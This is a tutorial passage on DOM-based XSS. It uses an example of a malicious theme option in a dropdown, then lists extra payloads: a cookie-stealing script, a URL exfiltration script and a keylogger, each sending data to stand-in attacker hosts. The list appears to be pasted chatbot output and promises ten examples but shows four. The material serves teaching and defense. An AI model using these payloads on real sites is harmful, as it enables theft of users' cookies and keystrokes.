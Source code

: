 ### **DOM-based XSS**
DOM-based XSS occurs when client-side JavaScript code manipulates the Document Object Model (DOM) in an insecure manner, allowing an attacker to inject malicious code. Unlike stored and reflected XSS, DOM-based XSS does not involve sending data to the server; instead, the vulnerability lies within the client-side JavaScript code itself.


1. Let's say there is a website that allows users to customize their profile by setting a preferred theme. The website provides a feature where users can select their preferred theme from a dropdown menu.

2. The website dynamically updates the page's appearance by modifying the DOM (Document Object Model) using JavaScript. It retrieves the user's selected theme from the dropdown menu and applies the corresponding CSS styles to the page.

3. An attacker discovers that the website does not properly sanitize or validate the user's input for the theme selection. They exploit this vulnerability by crafting a malicious theme option.

4. The attacker sets a malicious theme option that includes a script tag with an XSS payload. For example:

   ```
   <option value="</option><script>alert('DOM XSS example!');</script>">
     Malicious Theme
   </option>
   ```

5. User A visits their profile settings and selects the "Malicious Theme" option from the dropdown menu.

6. The website dynamically updates the page's DOM based on the user's selection. In this case, it blindly inserts the attacker's crafted option into the DOM without proper sanitization.

7. As a result, the script tag with the XSS payload gets inserted into the DOM and executed within User A's browser. This leads to an alert dialog with the message "DOM XSS example!" appearing on User A's screen.

In this example, the DOM XSS vulnerability occurs when the website allows user-controlled input to manipulate the DOM directly. The attacker leverages this vulnerability to inject malicious JavaScript code into the page, which then gets executed within the user's browser.

To prevent DOM XSS vulnerabilities, websites should implement proper input validation and output encoding techniques. It's important to sanitize user-controlled input and use safe DOM manipulation methods, such as text node creation or attribute manipulation, to prevent the execution of arbitrary JavaScript code within the DOM.

### More examples of DOM XSS

Certainly! Here are ten additional examples of XSS payloads that can be used to exploit DOM XSS vulnerabilities:
 

 
 Basic Error Alert:
   ```
   <img src=x onerror=alert('DOM XSS example!')>
   ```
 Cookie Theft:
   ```
   <script>document.location='https://malicious-site.com/steal.php?cookie='+document.cookie;</script>
   ```
 Document URL Manipulation:
   ```
   <script>document.location='https://attacker-site.com/log.php?data='+document.URL;</script>
   ```
 Keylogging:
   ```
   <script>document.onkeypress=function(e){new Image().src='https://attacker-site.com/collect.php?k='+e.key;}</script>
   ```